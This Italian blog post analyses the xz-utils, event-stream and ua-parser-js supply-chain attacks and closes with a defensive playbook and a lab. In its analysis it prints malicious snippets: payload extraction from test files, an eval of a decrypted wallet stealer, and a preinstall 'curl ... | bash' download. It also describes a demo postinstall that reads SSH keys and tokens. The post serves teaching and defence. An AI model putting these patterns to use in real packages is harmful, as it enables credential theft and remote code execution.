



// Il Cimitero dei Pacchetti
Sezione 00. Niente resta morto per sempre
Febbraio 2024. Un tizio di Microsoft, Andres Freund, sta facendo benchmark su Postgres e nota che i login SSH ci mettono mezzo secondo in piu'. Mezzo secondo. La maggior parte di noi avrebbe bestemmiato, dato la colpa alla rete e via. Freund no. Freund e' il tipo che profila sshd perche' mezzo secondo lo fa impazzire. E quello che tira fuori da liblzma e' roba che fa venire i brividi: una delle backdoor piu' cattive mai trovate nell'open source.
Qualcuno si era fatto due anni di gavetta come maintainer su xz-utils, un progetto di compressione che non guarda nessuno. Due anni di patch buone, bug fix, risposte gentili nelle issue. Il bravo ragazzo. Poi, con i permessi guadagnati, ha infilato codice offuscato dentro i file di test. File binari, roba che nessun reviewer umano aprirebbe mai. Quel codice si svegliava solo durante il build delle distro Linux, modificava la compilazione al volo, e alla fine patchava sshd in memoria per accettare comandi da chi aveva la chiave giusta.
Il bello? Il codice malevolo non stava nel sorgente C. Stava in file .xz nella cartella test. Binari opachi che il build system decomprimeva, concatenava con uno script m4, e linkava nel risultato finale. Se leggevi il sorgente era tutto pulito. Il binario compilato no.
Il punto non e' la backdoor. Il punto e' che il vettore d'attacco era codice che non doveva girare. File di test. Roba morta. Eppure e' finita dentro sshd su milioni di macchine. Il codice morto risorge. E quando risorge, ha i permessi di root.
// I Cinque Modi in Cui il Codice Risorge
Sezione 01. Tassonomia della resurrezioneHo messo insieme cinque meccanismi con cui codice che dovrebbe essere morto torna a girare. Ogni attacco alla supply chain che ho studiato ne usa almeno uno. Spesso due o tre combinati.
1. Dipendenze transitive
Il tuo progetto dipende da A. A dipende da B. B dipende da C. Hai mai letto il codice di C? Probabilmente non sai neanche che esiste. Eppure gira nel tuo processo, con i tuoi permessi, con accesso al tuo filesystem.
Un progetto Express medio si tira dentro 50, 60 pacchetti. Un progetto React supera i 200. Ogni singolo pacchetto puo' eseguire script arbitrari quando fai npm install, grazie al campo postinstall. Gira tutto nel contesto del tuo utente. La cartella node_modules non e' una cartella. E' un cimitero. E ogni npm install e' una riesumazione.
2. Maintainer takeover
Il maintainer si stufa. Un progetto che usano in migliaia ma che mantiene una persona sola, gratis, nel weekend. Arriva qualcuno che si offre di dare una mano. Contribuzioni utili per mesi. Poi il maintainer gli sgancia i permessi di publish. E a quel punto il pacchetto e' andato.
Esattamente quello che e' successo con event-stream nel 2018. Il maintainer originale, Dominic Tarr, l'ha ammesso nella issue: il tizio nuovo ha aggiunto una dipendenza, flatmap-stream, con dentro codice AES encrypted nel postinstall. Il payload si svegliava solo nell'app Copay di BitPay. Rubava chiavi private di wallet Bitcoin. Targeted come pochi.
3. Typosquatting e dependency confusion
Pubblichi un pacchetto che si chiama crossenv invece di cross-env. Oppure loadash invece di lodash. Prima o poi qualcuno sbaglia a scrivere il nome nel package.json. E il tuo pacchetto entra nella sua build.
La dependency confusion e' peggio. Le aziende usano registry npm interni per i pacchetti privati. Se il pacchetto interno si chiama company-utils e tu pubblichi un company-utils sul registry pubblico con un numero di versione piu' alto, npm scarica il tuo. Automaticamente. Alex Birsan l'ha dimostrato nel 2021 contro Apple, Microsoft e PayPal. Ha eseguito codice sui loro build server. Senza exploit, senza 0day. Solo un npm publish con il nome giusto.
4. Build system injection
Il sorgente e' pulito. Il build system no. xz-utils e' l'esempio perfetto: il codice C non aveva niente di strano. Lo script m4 che girava durante il build iniettava le istruzioni nella compilazione. Se fai code review sul sorgente, non trovi nulla. Se fai code review sul Makefile generato da autoconf... vabe', nessuno fa code review sui Makefile generati da autoconf. Sono bestie da 30.000 righe.
| 1 | # Da build-to-host.m4 (file legittimo di xz-utils, modificato) |
| 2 | # Questo frammento estrae il payload dai file di test |
| 3 | gl_am_configmake=`grep -aErls "#{4}[[:alnum:]]{5}#{4}$" $srcdir/tests/*.xz` |
| 4 | ... |
| 5 | # Decomprime, deoffusca, esegue. 4 stage di deobfuscation. |
| 6 | eval $gl_am_configmake | tr "\t \-_" " \t_\-" | xz -d 2>/dev/null |
L'offuscamento era brutale. Il payload passava attraverso quattro livelli di decompressione e sostituzione di caratteri. Uno grep cercava un pattern nei file .xz di test, estraeva byte, li decomprimeva, e il risultato era uno script shell che patchava il linking. Roba da pazzi.
5. Codice dormiente nei binari
Codice compilato che resta nel binario anche quando il sorgente che lo chiamava e' stato cancellato. Il linker non elimina tutto il dead code, specialmente con il dynamic linking. Funzioni che nessuno chiama restano li' nell'eseguibile. E si possono riattivare con una tecnica vecchia come il mondo: ROP, Return-Oriented Programming. Se il gadget e' nel binario, l'attaccante lo usa. Anche se il programmatore pensava di averlo tolto.
Il paradosso del dead code: il compilatore puo' eliminare codice unreachable in compilazione (-fdce, -flto). Ma il dead code eliminato dal compilatore non e' lo stesso dead code che ci preoccupa. Quello pericoloso e' il codice che il build system, le dipendenze, o il linker dinamico portano dentro senza che nessuno lo abbia chiesto.
// Anatomia di xz-utils (CVE-2024-3094)
Sezione 02. Due anni di pazienzaSmontiamo l'attacco pezzo per pezzo. Perche' la roba inquietante di xz-utils non e' il payload, e' la strategia. L'attaccante, che si faceva chiamare "Jia Tan", ha giocato una partita lunghissima.
bad-3-corrupt_lzma2.xz, good-large_compressed.lzma) che contengono il payload offuscato. Modifica build-to-host.m4 per estrarlo in fase di build. Rilascia le versioni 5.6.0 e 5.6.1.L'architettura del payload merita un discorso a parte. Il codice attraversava cinque stadi prima di diventare eseguibile:
Il payload finale intercettava RSA_public_decrypt in sshd attraverso il meccanismo IFUNC (Indirect Function) della glibc. Quando un client SSH mandava una chiave pubblica con un payload firmato con la chiave dell'attaccante, il codice non faceva il login: eseguiva un comando arbitrario come root. Una backdoor chirurgica. Invisibile al monitoring, invisibile ai log, attivabile solo da chi ha la chiave. Roba da servizi segreti.
// event-stream: Il Pacchetto Fantasma
Sezione 03. 1.5 milioni di download a settimana, zero maintainer
Novembre 2018. Uno apre una issue su event-stream, pacchetto npm con 1.5 milioni di download a settimana. Titolo: "I don't know what to say." Ha trovato codice offuscato in una sotto-dipendenza chiamata flatmap-stream. La risposta di Dominic Tarr, il maintainer originale, va letta tutta. Ha praticamente detto: non me ne occupavo piu', ho dato le chiavi a uno che si e' offerto, non l'ho controllato. Fine.
Il payload era elegante, in un modo bastardo. flatmap-stream conteneva codice minificato che faceva una cosa sola: al primo avvio controllava se il pacchetto copay-dash era nel progetto. Se si', decrittava un secondo payload con AES-256-CBC (chiave derivata dal nome del pacchetto stesso) e lo iniettava nel processo. Il payload intercettava le chiavi private dei wallet Bitcoin degli utenti Copay.
| 1 | // Payload deobfuscato di flatmap-stream (semplificato) |
| 2 | var dep = require('crypto'); |
| 3 | try { |
| 4 | var mod = require('copay-dash'); |
| 5 | // Se copay-dash esiste, siamo dentro l'app BitPay |
| 6 | var key = dep.createDecipher('aes256', getKey()); |
| 7 | var decrypted = key.update(payload, 'hex', 'utf8'); |
| 8 | // Il payload decrittato ruba le chiavi del wallet |
| 9 | eval(decrypted); |
| 10 | } catch(e) { |
| 11 | // Se copay-dash non c'e', zitto. Dormiente. Invisibile. |
| 12 | } |
Furbo. Se il payload si attiva ovunque lo beccano subito. Se si attiva solo in un ambiente specifico, in questo caso il build di una app precisa, puo' restare dormiente per settimane nei node_modules di milioni di progetti senza che nessuno lo noti. L'attaccante aveva capito questa cosa fondamentale e l'ha sfruttata perfettamente.
Il pattern: il codice malevolo stava in una dipendenza di una dipendenza. tuo-progetto → event-stream → flatmap-stream. Se guardi il tuo package.json, flatmap-stream non c'e'. Sta nel node_modules, tre cartelle sotto. E ha accesso a tutto: filesystem, rete, variabili d'ambiente, token API, chiavi SSH. Tutto.
// ua-parser-js: Account Hijacking su npm
Sezione 04. Quando il cimitero ha una porta sul retro
Ottobre 2021. ua-parser-js, pacchetto npm con 8 milioni di download a settimana. Lo usano Facebook, Amazon, Microsoft, Slack, IBM. Qualcuno buca l'account npm del maintainer e pubblica tre versioni con un cryptominer e un password stealer. Le versioni restano online quattro ore.
Quattro ore. Con 8 milioni di download a settimana sono circa 190.000 download all'ora. Il payload installava un cryptominer (XMRig, Monero) su Linux e un trojan che rubava password da Chrome e Firefox su Windows. Lo script preinstall nel package.json scaricava il binario e lo eseguiva. Tre righe di codice, devastazione totale.
| 1 | // package.json della versione compromessa |
| 2 | { |
| 3 | "name": "ua-parser-js", |
| 4 | "version": "0.7.29", |
| 5 | "scripts": { |
| 6 | "preinstall": "node preinstall.js" |
| 7 | } |
| 8 | } |
| 1 | // preinstall.js (semplificato) |
| 2 | const { exec } = require('child_process'); |
| 3 | const os = require('os'); |
| 4 | |
| 5 | if (os.type() === 'Linux') { |
| 6 | exec('curl -s http://[redacted]/l.sh | bash'); |
| 7 | } else { |
| 8 | exec('powershell -c "Invoke-WebRequest http://[redacted]/w.exe"'); |
| 9 | } |
Qui il meccanismo di resurrezione e' diverso. Nessuno ha scritto dead code che poi e' tornato in vita. Hanno bucato l'account del maintainer e hanno sostituito il codice vivo con roba malevola. Ma il risultato e' lo stesso: codice che non hai scritto, che non hai letto, che non hai autorizzato, gira sulla tua macchina perche' un giorno hai fatto npm install.
// Il Problema Strutturale
Sezione 05. Perche' continuera' a succedereIl problema e' nell'architettura di come distribuiamo software nel 2026. Guardate i numeri.
Rileggete quel 97%. Il software che gira sulle vostre macchine, il 97%, lo ha scritto gente che non avete mai visto in faccia. Mantenuto, forse, da altri sconosciuti. Scaricato in automatico da un registry centralizzato senza nessuna verifica oltre a un checksum. Il problema non e' che quel codice sia vulnerabile. Il problema e' che non sapete nemmeno che esiste.
L'ecosistema npm e' il piu' fragile di tutti. I lifecycle script (preinstall, postinstall, prepare) permettono l'esecuzione arbitraria di codice al momento dell'installazione. Fai npm install e ogni pacchetto nel tuo albero di dipendenze puo' lanciare uno script shell. Con i tuoi permessi. Sul tuo filesystem. Con accesso alle tue variabili d'ambiente, dove probabilmente tieni token API, credenziali del database, chiavi SSH. Tutto esposto.
La radice del problema: fiducia transitiva. Tu ti fidi di Express. Express si fida di body-parser. body-parser si fida di raw-body. La catena di fiducia e' lunga quanto l'albero delle dipendenze. E basta rompere un singolo anello perche' salti tutto.
| Ecosistema | Lifecycle scripts | Sandboxing | Signing | SBOM nativo |
|---|---|---|---|---|
npm |
preinstall, postinstall, prepare | Nessuno | Opzionale (dal 2023) | No |
pip |
setup.py (esecuzione arbitraria) | Nessuno | Opzionale (PEP 740) | No |
cargo |
build.rs (compilazione) | Nessuno | Nessuno | No |
go mod |
Nessuno | Nessuno | checksum DB (sum.golang.org) | No |
Go e' l'unico che ha fatto una scelta radicale: zero lifecycle script. go mod download scarica codice e basta. Non esegue niente. Il codice viene compilato solo con go build, e a quel punto almeno il compilatore lo vede. Non elimina il problema (il codice malevolo puo' stare nel sorgente Go) ma elimina un intero vettore d'attacco: l'esecuzione al momento dell'installazione. Niente riesumazioni automatiche. Il cimitero resta chiuso finche' non lo apri tu.
// Detection: Come Trovare i Risorti
Sezione 06. Strumenti e tecnicheSapere che il problema esiste non basta. Servono tool per scansionare, monitorare, e reagire. Vi dico cosa funziona nel 2026 e cosa no. Pero' una cosa ve la dico subito: gli strumenti trovano quello che e' gia' stato scoperto. Le backdoor vere passano sempre prima.
npm audit e i suoi limiti
found 12 vulnerabilities (3 low, 5 moderate, 3 high, 1 critical)
run `npm audit fix` to fix 9 of them.
3 vulnerabilities require manual review.
npm audit controlla la lista di vulnerabilita' note (GitHub Advisory Database). Il problema: la lista contiene solo roba gia' scoperta. L'advisory per xz-utils e' uscito dopo la scoperta. Per i tre giorni in cui la backdoor era attiva, npm audit non avrebbe detto niente. Zero.
Analisi degli script di installazione
Il primo campanello d'allarme e' la presenza di lifecycle script nel package.json. Si possono disabilitare globalmente con --ignore-scripts, pero' questo rompe parecchi pacchetti legittimi che compilano moduli nativi tipo node-gyp.
# Disabilita tutti i lifecycle scripts. Radicale ma efficace.
# Poi riabiliti per quelli che ne hanno bisogno:
$ npx --package=bcrypt -- npm rebuild bcrypt
Lockfile diffing
Il package-lock.json registra ogni dipendenza con il suo hash SHA-512. Se qualcuno pubblica una nuova versione di un pacchetto con lo stesso numero di versione (si', si puo' fare su npm con --force), l'hash cambia. Un diff del lockfile nel CI e' il check piu' economico che potete fare:
| 1 | #!/bin/bash |
| 2 | # ci-lockfile-check.sh |
| 3 | # Fallisce se il lockfile cambia senza che package.json sia cambiato |
| 4 | |
| 5 | if git diff --name-only HEAD~1 | grep -q "package-lock.json"; then |
| 6 | if ! git diff --name-only HEAD~1 | grep -q "package.json"; then |
| 7 | echo "ALERT: lockfile changed without package.json change" |
| 8 | echo "Possible supply chain attack. Review manually." |
| 9 | exit 1 |
| 10 | fi |
| 11 | fi |
Socket.dev e analisi statica dei pacchetti
Socket.dev fa una cosa interessante: analisi statica del codice dei pacchetti npm prima dell'installazione. Cerca pattern sospetti: chiamate a eval(), accesso alla rete durante l'install, lettura di env var, esecuzione di child process. Genera un report con risk score per ogni dipendenza. Non e' perfetto, ma e' una rete in piu'.
Reproducible builds
L'arma nucleare. Se il build e' deterministico (stesso sorgente = stesso binario, byte per byte), qualsiasi modifica al processo di compilazione diventa visibile. Debian, Arch e NixOS hanno programmi attivi su questo fronte. Con i reproducible build xz-utils sarebbe stato beccato al volo: il binario prodotto dai sorgenti puliti non avrebbe matchato quello nella distro.
Lo stato dell'arte: nessuno di questi tool da solo basta. npm audit vede solo le vuln note. Il lockfile diffing non vede attacchi che arrivano come versioni nuove legittime. Socket.dev ha falsi positivi. I reproducible build richiedono un'infrastruttura che quasi nessuno ha. La difesa funziona in profondita': tutti questi tool insieme, con review umana dove conta.
// Come Difendersi (Per Davvero)
Sezione 07. Playbook operativoDopo tre case study e cinque meccanismi di resurrezione, cosa fate concretamente lunedi' mattina? Ecco il playbook in ordine di impatto.
1. Pinning aggressivo
Bloccate le versioni esatte delle dipendenze. Niente ^, niente ~, niente range. Versioni esatte nel package.json, lockfile committato in git, npm ci nel CI che fallisce se il lockfile non matcha.
| 1 | // NO: accetta qualsiasi minor/patch |
| 2 | "express": "^4.18.0" |
| 3 | |
| 4 | // SI': versione esatta, nessuna sorpresa |
| 5 | "express": "4.18.2" |
Questo non vi protegge da un maintainer compromesso che pubblica una versione nuova. Vi protegge dal fatto che la versione nuova venga scaricata nella vostra build senza che nessuno la guardi.
2. Disabilitate i lifecycle script per default
$ echo "# Pacchetti che necessitano di script di build:" >> .npmrc
$ echo "# bcrypt, sharp, sqlite3: riabilitare manualmente" >> .npmrc
3. Vendorate le dipendenze critiche
Per i pacchetti da cui dipende la sicurezza del progetto (crypto, auth, parsing), copiate il codice sorgente nel vostro repository. Si', e' scomodo. Si', gli aggiornamenti li fate a mano. Ma se jsonwebtoken viene compromesso stasera, il vostro fork locale non cambia.
4. SBOM e monitoraggio continuo
Generate un Software Bill of Materials (SBOM) a ogni build. Tool come syft (Anchore) o cdxgen (CycloneDX) producono un inventario completo di tutto quello che finisce nel vostro artefatto. Quando esce un advisory, sapete in secondi se siete esposti.
Cataloged packages: 847
Output written to: sbom.json
$ grype sbom:sbom.json
NAME VERSION VULNERABILITY SEVERITY
json5 2.2.1 CVE-2022-46175 HIGH
semver 7.3.7 CVE-2022-25883 MEDIUM
Found 2 vulnerabilities
5. Firma e verifica
npm supporta la firma dei pacchetti dal 2023 (npm provenance). I pacchetti con provenance includono un link al commit esatto e alla CI run che li ha prodotti. Se un pacchetto ha provenance, sapete che il tarball su npm corrisponde al codice su GitHub. Se non ce l'ha, state andando sulla fiducia.
audited 847 packages in 3s
523 packages have verified registry signatures
142 packages have verified attestations
182 packages have no signatures or attestations
// Apri il Tuo Cimitero
Sezione 08. Laboratorio: vedi, sfrutta, capisci
Se pensate che questa sia teoria, fermatevi. Aprite un progetto vostro. Uno qualsiasi con un node_modules. Ho preparato tre script che vi fanno vedere con i vostri occhi cosa succede. Il codice e' tutto nel repo, clonatelo e lanciateli: github.com/Pinperepette/signal.pirate/scripts/il-codice-risorge
Step 1: Lo Scanner (apri il cimitero)
Il primo script, graveyard-scanner.js, vi apre il cimitero. Lo puntate verso un node_modules qualsiasi e lui scansiona tutto: cerca lifecycle script sospetti, chiamate a eval(), accesso a process.env, child process, accessi a .ssh e alla shell history. Roba che un pacchetto che fa parsing di date non dovrebbe fare.
L'ho lanciato su un progetto Electron reale. 541 pacchetti. Risultato:

179 sospetti su 541. Un terzo. La maggior parte sono falsi positivi: pacchetti legittimi che usano child_process per compilare moduli nativi, tool che leggono process.env per la configurazione. Ma quanti di quei 179 pacchetti avete letto davvero? Quanti sapevate che esistessero nel vostro progetto? Ecco.
Step 2: Esegui il Morto (il momento "holy shit")
Il secondo script e' un pacchetto npm finto, totally-safe-package, con un postinstall che vi mostra cosa puo' leggere un pacchetto qualsiasi quando lo installate. Non esfiltriamo niente, stampiamo e basta. Ma guardate cosa esce:

Le chiavi SSH private, con tanto di dimensione in byte. La history della shell con 15.000 comandi, compresi gli ultimi 5. Il file .npmrc (dove magari avete un token npm). Il .docker/config.json. Il .gitconfig. Tutto leggibile. Tutto accessibile. Con un npm install. Senza root. Senza sudo. Senza che nessuno vi chieda niente.
Tutto quello che vedete stampato, un pacchetto malevolo lo avrebbe spedito a un server. In silenzio.
Step 3: La Resurrezione Controllata
Ultimo step. Lo script resurrection-lab.sh simula un supply chain attack completo. Crea un pacchetto pulito (versione 1.0.0), un progetto vittima lo installa, poi il pacchetto viene "avvelenato" con una 1.0.1 che ha un postinstall. La vittima reinstalla le dipendenze e...

Guardate la riga in fondo. "found 0 vulnerabilities". npm non ha trovato niente di strano. Il pacchetto e' passato dalla 1.0.0 alla 1.0.1, il ^ nel package.json ha permesso l'upgrade automatico, il postinstall si e' eseguito. Nessun warning, nessuna conferma, nessun log.
Provateli. Gli script sono nel repo, li clonate e li lanciate in due minuti. Non serve installare niente di strano. Quello che vedrete non e' un exploit. Non avete sfruttato una vulnerabilita'. Avete solo usato il sistema come e' stato progettato.
// La Lezione di Pasqua
Sezione 09. Resurrezioni indesiderate
C'e' codice che gira in produzione adesso, in questo momento, su macchine che gestiscono carte di credito, dati sanitari, infrastrutture critiche, che nessun essere umano ha mai letto. Sta in node_modules, quinto livello di profondita', funzione utility di 30 righe che qualcuno ha scritto nel 2016 e non tocca da anni. Fa il suo lavoro. Per adesso.
"Mi fido delle mie dipendenze perche' sono open source e qualcuno le avra' controllate." Nessuno le ha controllate. L'open source viene con la possibilita' della review, che e' una cosa molto diversa dalla certezza. E' un atto di fede. Letteralmente.
Jia Tan ha dimostrato che con due anni di pazienza avveleni un progetto critico dell'infrastruttura Linux. L'attaccante di event-stream ha dimostrato che basta chiedere gentilmente al maintainer giusto. Il compromesso di ua-parser-js ha dimostrato che l'account npm di una sola persona e' il single point of failure per milioni di installazioni.
La prossima backdoor non la trovera' un ingegnere che profila SSH per mezzo secondo. La trovera' uno scanner, forse. O non la trovera' nessuno.
node_modules e' un cimitero. Ogni npm install e' una riesumazione. E il problema non e' il codice malevolo. Il problema e' che gira con il vostro consenso.
Tre case study. Cinque meccanismi di resurrezione. Un modello di fiducia costruito sulla speranza che qualcun altro abbia letto il codice. Il 97% del software che gira sulle vostre macchine lo ha scritto gente che non conoscete. Raga, buona Pasqua /all. Che il vostro node_modules resti in pace, almeno fino al prossimo npm install.
Signal Pirate